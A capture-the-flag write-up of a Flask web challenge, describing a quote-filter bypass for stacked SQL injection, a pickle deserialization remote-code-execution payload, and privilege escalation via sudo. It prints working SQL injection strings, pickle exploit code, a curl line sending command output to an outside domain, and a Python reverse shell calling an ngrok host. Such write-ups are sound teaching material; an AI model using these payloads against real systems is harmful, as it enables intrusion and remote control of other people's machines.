




#   Transfer (Hard)


In my opinion this was the most fun challenge out of all. I personally love Web challenges with source code. But it was a very long journey of issuing support tickets and just diving to rabbitholes which made me finish the challenge just after the CTF ended by half an hour or so.


To start off, and as I always do in challenges with source code, I tend to work on a local instance with debugging enabled just to get full verbosity on everything I do to the application


## Environment setup


```console
flask run --debug
```
That will start a server running on port 5000 by default

Now the instance database population and initialization was so bad on my end that the application for some reason or another never populated the database by calling `init_db` function.

So I created a custome script to populate a database, add a user with `admin|admin` creds and make the application use that instead


```python
import sqlite3
import pickle,base64
DATABASE = "database.db"

db = sqlite3.connect(DATABASE)

def init_db():
    
        
        db = sqlite3.connect(DATABASE)
        c = db.cursor()

        c.execute("CREATE TABLE  users (username text, password text)")
        c.execute("CREATE TABLE IF NOT EXISTS activesessions (sessionid text, username text, timestamp text)")
        c.execute("CREATE TABLE IF NOT EXISTS files (filename text PRIMARY KEY, data blob, sessionid text)")
        c.execute("INSERT INTO users VALUES ('admin','admin')")
        c.execute("INSERT OR IGNORE INTO files VALUES ('flag.txt', ?, NULL)",
                  (base64.b64encode(pickle.dumps(b'lol just kidding this isnt really where the flag is')).decode('utf-8'),))
        c.execute("INSERT OR IGNORE INTO files VALUES ('NahamCon-2024-Speakers.xlsx', ?, NULL)",
                  (base64.b64encode(pickle.dumps(b'lol gottem')).decode('utf-8'),))
        db.commit()
if __name__ == '__main__':
    init_db()
```

## Starting to tinker

First thing I tried was to login as the user admin I added to the database and explore. The application by default doesn't pre-define any user account which felt odd to me. So after trying that I was greeted with this lovely message: `Username or password is incorrect`

Here the source code review part started to figure out what was happening, so I went straight to the route `/login` code:

```python 
@app.route('/login', methods=['POST'])
def login_user():
    username = DBClean(request.form['username'])
    password = DBClean(request.form['password'])
    
    conn = get_db()
    c = conn.cursor()
    sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
    c.executescript(sql)    # The problem was here
    user = c.fetchone()     # here
    if user:                # and here
        c.execute(f"SELECT sessionid FROM activesessions WHERE username=?", (username,))
        active_session = c.fetchone()
        if active_session:
            session_id = active_session[0]
        else:
            c.execute(f"SELECT username FROM users WHERE username=?", (username,))
            user_name = c.fetchone()
            if user_name:
                session_id = str(uuid.uuid4())
                c.executescript(f"INSERT INTO activesessions (sessionid, timestamp) VALUES ('{session_id}', '{datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')}')")
            else:
                flash("A session could be not be created")
                return logout()
        
        session['username'] = username
        session['session_id'] = session_id
        conn.commit()
        return redirect(url_for('files'))
    else:
        flash('Username or password is incorrect')
        return redirect(url_for('home'))
```

That was so odd to me that I verified that the credentials I added are inserted successfully by interacting manually with the sqlite database



And sure enough the creds were correct, so it must be a problem with the code.

so here I created a lazy script that replicates how the app interacts with the database in order to figure out the problem

```python
import sqlite3

DATABASE = "./app/database.db"


username = "admin"

password = "admin" 
conn = sqlite3.connect(DATABASE)
c = conn.cursor()
sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
print(sql)
c.executescript(sql)
user = c.fetchone()

print(user)
if user:
    print("authenticated")
else:
    print("something is off")
# How it should be pulled from the database
print("must be:")
sql = f"SELECT * FROM users;"
#conn = sqlite3.connect(DATABASE)
#c = conn.cursor()
c.execute(sql)
user = c.fetchone()
print(user)
```

but I got this output 

```
SELECT * FROM users WHERE username='admin' AND password='admin'
None
something is off
must be:
('admin', 'admin')
```

this immediately pointed out to me the difference between the usage provided in the docs and the app. In this instance the function executescript, unlike execute(), always returns `None`. In python, None acts like a boolean `False` which made the if block which is pointed with a comment above never resolve to true in any case.

Here I opened a support ticket and I was told that this code was broken intentionally.

###  SQLI

During my crusing through the code I noticed that the sql statement in the `/login` route code isn't sanitized or predetermined, so it was an obvious sql injection triggered by the `executescript()` function call.

The only thing in place is a simple function that filters out some characters

```python
def DBClean(string):
    for bad_char in " '\"":
        string = string.replace(bad_char,"")
    return string.replace("\\", "'")
```

but that was easy to bypass as we can in sqlite just replace spaces with `/**/` and single quotes with `\` which is given by the function.

So here I tried to inject a new user as so:

```
a\;INSERT/**/INTO/**/users/**/(username,password)/**/VALUES/**/(\aaa\,\aaa\);--
```

and sure enough, pulling up the users using the cli reveals that my attemp was successful and the user `aaa` was injected 

```
sqlite> select * from users;
admin|admin
aaa|aaa
sqlite>
```
But since we can't even login to get a valid and signed session cookie from the app we need to interact with all routes. So I searched through the routes and found out that the api endpoint `/download/<filename>/<sessionid>` doesn't need authentication, it only requires a valid file and a valid session id. So I injected those:

```
a\;INSERT/**/INTO/**/activesessions/**/(sessionid, timestamp,username)/**/VALUES/**/(\aaaaaa\,\1\,\aaa\);--

a\;INSERT/**/INTO/**/files/**/VALUES/**/(\file.txt\,\gASVDgAAAAAAAABDCmxvbCBnb3R0ZW2ULg==\,NULL);--
```

with the base64 string being a base64 encoded pickled python object

So I tried to download the flag but I got an error

### Debugging the download error

That process wasn't as straight forward as the python packages I used were up-to-date and not dated as given by the `requirements.txt` file.

But looking back at the definition (and as pointed out by a fellow player) of the function call `send_file` that is used doesn't contain a `download_name` parameter which throws an error.




### Finding the last bug in the chain

```python
@app.route('/download/<filename>/<sessionid>', methods=['GET'])
def download_file(filename, sessionid):
    conn = get_db()
    c = conn.cursor()
    c.execute(f"SELECT * FROM activesessions WHERE sessionid=?", (sessionid,))
    
    active_session = c.fetchone()
    if active_session is None:
        flash('No active session found')
        return redirect(url_for('home'))
    c.execute(f"SELECT data FROM files WHERE filename=?",(filename,))
    
    file_data = c.fetchone()
    if file_data is None:
        flash('File not found')
        return redirect(url_for('files'))

    file_blob = pickle.loads(base64.b64decode(file_data[0]))
    return send_file(io.BytesIO(file_blob), download_name=filename, as_attachment=True)
```

looking at the code above it is apperant that the file data stored in the database is unprotected from deserialization attack, so I immediately tried to get an RCE on my own machine to verify:

```python
import base64
import cPickle

command = "echo 'get pwned' > pwned.txt"
class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))
    
payload = base64.b64encode(cPickle.dumps(PickleRCE())).decode("utf-8")

print(payload)
```

and plug that output in a file and download it (note that this script uses cPickle and thus works with python 2.7)

then I just downloaded the file by calling `/download/<file name>/<session>`



## A reverse shell

At this point only 8 teams have solved the challenge, so I felt so confident that I'll be from the top ten to solve the hardest web challenge in this ctf.

I tried first to grab the output of the RCE via a curl get requets to my domain as so:
```
curl https://<my domain>/$(whoami)
```
But got nothing back which made me think that this hosted machine was so stripped down that it doesn't have the basic utilities.

even tried to remove the template `login.html` file which didn't work as well, mabe due to the web user having read only permissions idk.

SO my best bet was a reverse shell, my worst nightmares. I never got along with reverse shells but It seems I had to.

Long story short, I spent day and a half left from the ctf time trying hard to get a callback with no luck. With that the ctf ended and after the fact I got the payload from a fellow player which worked just fine:

```console
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("5.tcp.eu.ngrok.io",19228));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

So I tried to finish the challenge after the ctf ended

## Escalating Privileges

after sending the payload I got dropped in a shell in which I just needed to get root access to. Fortunately it was so straight forward, as the only thing I needed to do is to execute `sudo su` to get root user access

## Flag

The flag was in the `/root` directory which made a reverse shell mandatory. And with that I got, although late, the flag:

